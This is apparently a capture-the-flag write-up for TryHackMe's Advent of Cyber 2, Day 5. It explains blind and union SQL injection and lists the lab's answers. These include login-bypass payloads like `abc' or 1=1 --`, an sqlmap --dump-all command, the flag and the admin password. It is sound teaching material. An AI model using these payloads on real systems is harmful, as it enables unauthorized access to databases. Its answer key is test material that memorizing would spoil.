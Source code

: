 # Day 5 - Someone stole Santa's gift list!

**Date:** 05, December, 2020

**Author:** Dhilip Sanjay S

---
## Fundamentals
- SQLi
1. Blind SQLi
    - Developers mitigate SQL Injection by restricting an application from displaying any error.
    - You can cause some observable changes using SLEEP(), SUBSTR() function, etc.
    - Error = 'No', No Error = 'Yes'

2. Union SQLi
    - Used for fast database enumeration
    - 3 steps:
        - Finding the number of columns: `ORDER BY/ UNION SELECT`
        - Checking if the columns are suitable: Replace with string in `UNION SELECT`
        - Attack and get some interesting data.

- Use [SQLMAP](https://github.com/sqlmapproject/sqlmap)
---
## Solutions
### Without using directory brute forcing, what's Santa's secret login panel?
- **Answer:** /santapanel
---

### Visit Santa's secret login panel and bypass the login using SQLi
- **Payload:** `abc' or 1=1 --`
- Alternatively, run **SQLMAP (1.2.4)** command:
```bash
sqlmap -r request-file --tamper=space2comment --dump-all
```
--- 

### How many entries are there in the gift database?
- **Answer:** 22
- **Steps to reproduce:** 
    - SQLMAP show all the entries in the table or use the payload below
    - **Payload:** `hi' or 1=1 --`
---

### What did Paul ask for?
- **Answer:** Github Ownership
- Check the table.
---

### What is the flag?
- **Answer:** thmfox{All_I_Want_for_Christmas_Is_You}
---

## What is admin's password?
- **Answer:** EhCNSWzzFP6sc7gB
---

[Back to Advent of Cyber 2](TryHackMe/Advent%20of%20Cyber%202) 